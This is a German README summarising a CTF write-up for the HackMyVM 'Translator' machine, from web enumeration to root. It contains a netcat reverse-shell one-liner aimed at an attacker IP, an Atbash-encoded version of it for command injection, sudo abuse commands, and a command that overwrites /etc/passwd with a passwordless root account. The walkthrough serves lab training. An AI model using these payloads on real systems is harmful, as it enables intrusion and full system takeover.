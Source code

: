 # Translator - HackMyVM (Easy)
 
![Translator.png](Translator.png)

## Übersicht

*   **VM:** Translator
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Translator)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 11. Mai 2022
*   **Original-Writeup:** https://alientec1908.github.io/Translator_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Translator"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), auf dem eine Datei `translate.php` gefunden wurde. Diese Datei war anfällig für Command Injection: Die Benutzereingabe über den GET-Parameter `hmv` wurde zuerst mit einer Atbash-Chiffre verarbeitet und dann unsicher in einem `system()`-Aufruf verwendet. Durch eine Atbash-kodierte Reverse-Shell-Payload wurde initialer Zugriff als `www-data` erlangt. Als `www-data` wurde eine Datei `hvxivg` (Atbash für `script`) gefunden, deren Inhalt (`Mb kzhhdliw rh zbfie3w4` -> Atbash für `My password is ayurv3d4`) das Passwort für den Benutzer `ocean` offenbarte. Nach dem Wechsel zu `ocean` zeigte `sudo -l`, dass `/usr/bin/choom` als Benutzer `india` ausgeführt werden durfte. Dies wurde genutzt, um eine Shell als `india` zu erhalten. Schließlich erlaubte eine weitere `sudo`-Regel dem Benutzer `india`, `/usr/local/bin/trans` als `root` auszuführen. Dieses Programm wurde missbraucht, um `/etc/passwd` mit einem Eintrag für einen neuen Root-Benutzer (`hacker`) zu überschreiben, was den direkten Login als `root` ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `nmap`
*   `gobuster`
*   Web Browser (für Interaktion und Tests)
*   `tr` (via RCE, impliziert durch Atbash-Verarbeitung serverseitig)
*   Atbash Cipher Decoder (z.B. dcode.fr, impliziert)
*   `nc` (netcat)
*   `find`
*   `cat`
*   `su`
*   `sudo`
*   `choom`
*   `cp`
*   `nano` (oder anderer Texteditor)
*   `trans` (Custom Binary)
*   `ssh`
*   Standard Linux-Befehle (`ls`, `cd`, `id`, `pwd`, `export`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Translator" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   *Ein initialer `arp-scan` wurde im Original-Writeup erwähnt, aber für diese Readme wird der Nmap-Scan als Startpunkt genommen.*
    *   `nmap`-Scan auf `192.168.2.113` identifizierte offene Ports: 22 (SSH - OpenSSH 8.4p1) und 80 (HTTP - Nginx 1.18.0).
    *   `gobuster` auf Port 80 fand `/index.html` und die entscheidende Datei `/translate.php`.
    *   Manuelle Tests mit `translate.php` und dem Parameter `hmv` zeigten, dass die Eingabe mit einer Atbash-Chiffre verarbeitet und anschließend in einem Shell-Befehl verwendet wird (Command Injection). Z.B. `hmv=rw;` wurde zu `id;` ausgeführt.

2.  **Initial Access (RCE via Atbash-kodierter Payload zu `www-data`):**
    *   Erstellung einer Bash-Reverse-Shell-Payload (z.B. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Angreifer-IP] 1234 >/tmp/f`).
    *   Atbash-Kodierung dieser Payload (z.B. zu `in /gnk/u;npurul /gnk/u;xzg /gnk/u|/yrm/hs -r 2>&1|mx [Angreifer-IP] 1234 >/gnk/u`).
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 1234).
    *   Senden der Atbash-kodierten Payload über den `hmv`-Parameter an `translate.php`.
    *   Erlangung einer interaktiven Shell als `www-data` nach Analyse des Quellcodes von `translate.php` (bestätigte `system('echo '.$test.'| tr ...')`).

3.  **Privilege Escalation (von `www-data` zu `ocean`):**
    *   Im Verzeichnis `/var/www/html` wurde die Datei `hvxivg` gefunden.
    *   `cat hvxivg` zeigte `Mb kzhhdliw rh zbfie3w4`.
    *   Atbash-Dekodierung ergab: "My password is ayurv3d4".
    *   Wechsel zum Benutzer `ocean` mittels `su ocean` und dem Passwort `ayurv3d4`.

4.  **Privilege Escalation (von `ocean` zu `india` via `sudo choom`):**
    *   `sudo -l` als `ocean` zeigte: `(india) NPASSWD: /usr/bin/choom`.
    *   Ausführung von `sudo -u india /usr/bin/choom -n 1 bash`.
    *   Erlangung einer Shell als Benutzer `india`.

5.  **Privilege Escalation (von `india` zu `root` via `sudo trans` und `/etc/passwd` Manipulation):**
    *   User-Flag `a6765hftgnhvugy473f` in `/home/ocean/user.txt` gelesen (als `india` oder `root`).
    *   `sudo -l` als `india` zeigte: `(root) NPASSWD: /usr/local/bin/trans`.
    *   Erstellung einer manipulierten Passwortdatei (`/dev/shm/file`) mit einem Eintrag für einen neuen Root-Benutzer (z.B. `hacker::0:0:hacker:/root:/bin/bash`).
    *   Ausnutzung von `trans` zum Überschreiben von `/etc/passwd`: `sudo -u root /usr/local/bin/trans -i /dev/shm/file -o /etc/passwd -no-auto`.
    *   Wechsel zum neuen Root-Benutzer `hacker` mittels `su hacker` (ohne Passwort oder mit bekanntem, falls Hash gesetzt wurde).
    *   Erlangung einer Root-Shell.
    *   Root-Flag `h87M5364V2343ubvgfy` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Command Injection nach Chiffrierung:** Die Webanwendung (`translate.php`) verarbeitete Benutzereingaben mit einer Atbash-Chiffre und übergab das Ergebnis unsicher an einen `system()`-Aufruf.
*   **Klartext-Passwort in Datei (Atbash-verschleiert):** Ein Passwort wurde in einer Datei gespeichert, deren Inhalt und Name Atbash-kodiert waren.
*   **Unsichere `sudo`-Konfiguration (`choom`):** Die Erlaubnis, `choom` (das Befehle starten kann) als anderer Benutzer auszuführen, ermöglichte einen Benutzerwechsel.
*   **Unsichere `sudo`-Konfiguration (`trans`):** Die Erlaubnis, ein benutzerdefiniertes Programm (`trans`) als `root` auszuführen, das beliebige Dateien überschreiben konnte, ermöglichte die Manipulation von `/etc/passwd`.
*   **Manipulation von `/etc/passwd`:** Hinzufügen eines neuen Benutzers mit UID 0 zur Erlangung von Root-Rechten.

## Flags

*   **User Flag (`/home/ocean/user.txt`):** `a6765hftgnhvugy473f`
*   **Root Flag (`/root/root.txt`):** `h87M5364V2343ubvgfy`

## Tags

`HackMyVM`, `Translator`, `Easy`, `Command Injection`, `Atbash Cipher`, `RCE`, `sudo Exploitation`, `choom`, `Custom Binary Exploitation`, `/etc/passwd`, `Privilege Escalation`, `Linux`, `Web`
